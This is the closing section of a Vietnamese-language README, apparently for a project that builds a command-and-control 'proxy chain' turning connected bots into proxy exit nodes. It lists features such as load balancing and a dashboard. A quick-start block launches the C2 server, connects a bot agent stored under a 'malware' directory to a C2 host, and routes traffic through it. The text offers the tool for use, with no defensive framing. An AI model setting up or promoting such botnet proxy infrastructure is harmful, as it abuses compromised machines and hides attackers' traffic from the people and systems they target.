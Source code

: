 
## 🎉 Kết Luận

Hệ thống C2 Proxy Chain cung cấp một giải pháp hoàn chỉnh để biến các bot đã kết nối thành proxy exit nodes. Với load balancing, health monitoring, và web dashboard, hệ thống đảm bảo hiệu suất cao và độ tin cậy.

**Tính năng chính:**
- ✅ C2 Proxy Server với multi-threading
- ✅ Bot Agent hỗ trợ proxy forwarding
- ✅ Load Balancer với 8 thuật toán
- ✅ Health Monitor với circuit breaker
- ✅ Web Dashboard real-time
- ✅ Integration Test suite
- ✅ Comprehensive documentation

**Bắt đầu ngay:**
```bash
# 1. Khởi động C2 server
python3 scripts/c2_proxy_server.py

# 2. Kết nối bot
python3 bane/malware/bot_agent.py --c2-host C2_IP

# 3. Cấu hình proxy
export http_proxy=http://C2_IP:8080

# 4. Test
curl http://httpbin.org/ip
```

Chúc bạn sử dụng thành công! 🚀
